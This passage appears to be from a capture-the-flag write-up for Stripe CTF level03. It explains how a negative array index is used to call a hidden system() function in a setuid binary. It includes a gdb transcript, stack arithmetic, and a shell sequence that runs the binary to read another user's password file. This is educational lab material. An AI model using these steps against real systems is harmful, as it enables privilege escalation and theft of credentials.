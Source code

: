The four functions you can call are: `to_upper`, `to_lower`, `capitalize`,
`length`, and do exactly what they say. However, there's also a `run()` function
(at address 0x0804875B) that was left in the binary, but isn't in the array, as
seen above. That function will call `system()` on the provided argument. If we
could somehow get that function to run, we'd be able to execute code of our
liking! Thankfully, the program doesn't check for negative numbers, so we're in
luck.

If we run the program under gdb (which, by the way, clears the setuid bit), we
can observe that the buffer buf, which contains our command-line string, is
placed on the stack at address 0xffb3712c (this will be different for each run,
due to [ASLR][aslr]), and our function pointers are at address 0xffb3719c. The gdb
transcript is:

```
(gdb) break main
Breakpoint 1 at 0x80487d8: file level03.c, line 68.
(gdb) run 0 asdf
(gdb) x fns
0xffb3719c:     0xffb371b8
(gdb) break truncate_and_call
Breakpoint 2 at 0x8048780: file level03.c, line 57.
(gdb) c
(gdb) x buf
0xffb3712c:     0x00000000
```

If you look at the layout of the stack in-memory, it would look something like this:

```
0xffb3712c      buf[64]

[...]

0xffb3719c      fns: &to_upper
                fns: &to_lower
                fns: &capitalize
                fns: &length
```

If you subtract the two addresses you get 0xffb3719c - 0xffb3712c = 0x70,
which, when we divide by the size of a pointer, is 0x28. So, running something
like `/levels/level03 -28 blah` would call `fns[-28]`, which is &fns - 28 *
size of a pointer, which works out to be &fns - 0x70. From above, we see that
this would call a function pointer that's stored in the `buf[]` array. Now, we
can put things in this array, by passing them on the command line, and
therefore we can call an arbitrary function pointer we control. Things are a
bit more complex - we need to get the program to run a script we control, and
we're in some temporary directory. So, we need to calculate the length of the
directory (20 characters, for me), and then place a function pointer there. So,
here's what I ran to gain control:

{{< highlight shell >}}
export VAL=`pwd``printf "\x5B\x87\x04\x08"`
echo "#/bin/bash" >> test2
echo "/bin/cat /home/level04/.password" >> test2
/levels/level03 -23 $VAL
{{< /highlight >}}


[ctf]: https://stripe.com/blog/capture-the-flag
[wrapup]: https://stripe.com/blog/capture-the-flag-wrap-up
[ctfcode]: https://github.com/abrody/stripe-ctf/
[aslr]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[strcpy]: http://pubs.opengroup.org/onlinepubs/009695399/functions/strcpy.html
[pickle]: http://docs.python.org/library/pickle.html
[level06]: https://github.com/abrody/stripe-ctf/blob/master/code/level06/level06.c
[mkfifo]: http://linux.die.net/man/3/mkfifo
[writeup01]: http://blog.zx2c4.com/781
[writeup02]: http://willcodeforfoo.com/2012/02/capture-the-flag/
[writeup03]: https://github.com/dividuum/stripe-ctf
[writeup04]: https://gist.github.com/michaelpetrov/1899630